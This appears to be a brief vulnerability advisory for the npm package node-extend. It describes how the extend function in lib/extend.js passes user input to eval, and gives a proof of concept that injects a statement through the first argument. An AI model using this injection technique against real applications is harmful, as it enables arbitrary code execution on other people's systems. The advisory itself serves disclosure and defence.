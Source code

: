 # Overview

`node-extend` is an extend for node.js.

This package is vulnerable to Arbitrary Code Execution. User input provided to the argument `A` of extend `function(A,B,as,isAargs)` found within `lib/extend.js` is executed by the `eval` function, resulting in code execution.

# Proof of Concept

```
var extend = require("node-extend");
foo = extend("function (){});console.log(234); //(){console.log(123)}","")
console.log(foo);
```
